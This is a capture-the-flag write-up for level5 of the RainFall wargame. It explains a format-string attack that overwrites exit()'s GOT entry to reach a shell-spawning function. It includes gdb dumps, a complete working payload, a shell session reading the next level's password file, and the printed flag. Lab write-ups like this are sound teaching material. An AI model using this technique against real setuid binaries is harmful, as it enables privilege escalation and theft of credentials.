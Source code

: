 level5
======

*	We spawn with a [level5](source/level5) executable
	```console
	level5@RainFall:~$ ls -l 
	total 8
	-rwsr-s---+ 1 level6 users 5385 Mar  6  2016 level5
	level5@RainFall:~$ ./level5 


	level5@RainFall:~$ ./level5 
	qweqweqwe
	qweqweqwe
	```
*	We have 3 functions ([code here](source/level5.c)):
	-	`main` calling `n`
	-	`n` creates a 520 bytes variable, `fgets` on it and then `printf` it
	-	`o` calls `/bin/sh``
*	The trick here is that `o` is never called but its our way out. One way would be the change the function the pointer of `exit()` points to, to make it point towards `o`
*	There is a section inside of programs that is called the [Global Offset Table (GOT)](https://en.wikipedia.org/wiki/Global_Offset_Table). It holds addresses of functions that are dynamically linked unless a program is marked full RELRO. Most programs don't include every function they use to reduce binary size. Instead, common functions are "linked" into the program so they can be saved once on disk and reused by every program. This [website](https://ctf101.org/binary-exploitation/what-is-the-got/) explains it well. It is important for us to understand this to be able to retrieve the real address pointing to `exit()`. 
*	Let's try to find it in `gdb` :
	```gdb
	(gdb) info files
		[...]
		0x08049814 - 0x08049818 is .got
		0x08049818 - 0x08049840 is .got.plt
	```
	Here we get the address were we can find the `got` and the `Procedure Linkage Table (PLT)` which is a function that allow the program to understand which name of function is linked to what.
	```gdb
	(gdb) info functions
		[...]
		0x08048334  _init
		0x08048380  printf
		0x08048380  printf@plt
		0x08048390  _exit
		0x08048390  _exit@plt
		0x080483a0  fgets
		0x080483a0  fgets@plt
		0x080483b0  system
		0x080483b0  system@plt
	```
	Here we can see they really are treated by `plt`
	```gdb
	(gdb) disas n
		[...]
		0x080484ff <+61>:    call   0x80483d0 <exit@plt>
	```
	Same thing when we look at the function, let's take a look at this address
	```gdb
	(gdb) disas 0x80483d0
	Dump of assembler code for function exit@plt:
		0x080483d0 <+0>:     jmp    *0x8049838
		0x080483d6 <+6>:     push   $0x28
		0x080483db <+11>:    jmp    0x8048370
	```
	This is how every function is treated in the `plt`
	```gdb
	(gdb) x 0x8049838
		0x8049838 <exit@got.plt>:       0x080483d6
	```
	This is a value so we have to use `x` and not `disas`. And now we have the certitude that the `jmp` was poiting to the real address of exit -> `0x8049838`
*	This was quite long but I did my best to make it short. Now let's retrieve the address of `o()`:
	```gdb
	(gdb) x o
		0x80484a4 <o>:  0x83e58955
	```
	We get this `0x80484a4`
*	There is something else to know. Here we are working with a format string attack and not a buffer overflow as we did before. The difference is that we can't really "write" address, only thing we can do is "add" byte value with `%d`, so to access that address, we will need to add as much byte as necessary AND in decimal since the flag only takes decimals.
*	Index can be find at the `4th` position
	```console
	level5@RainFall:~$ ./level5 
	%x %x %x %x %x %x %x
	200 b7fd1ac0 b7ff37d0 25207825 78252078 20782520 25207825
	```
	We don't really need to add random char to find it when we know ascii of `%x `
*	Let's finally build the payload:
	-	little endian of `exit()` -> `\x38\x98\x04\x08`
	-	value of the address of `o()` : `0x80484a4(HEX)` -> `134513828(DEC)`
	-	index of `%4$n`
	```console
	level5@RainFall:~$ python -c 'print "\x38\x98\x04\x08" + "%134513824d%4$n"' > /tmp/payload5
	level5@RainFall:~$ cat /tmp/payload5 - | ./level5
	[...]
	  512
	whoami
	level6
	cat /home/user/level6/.pass
	d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
	```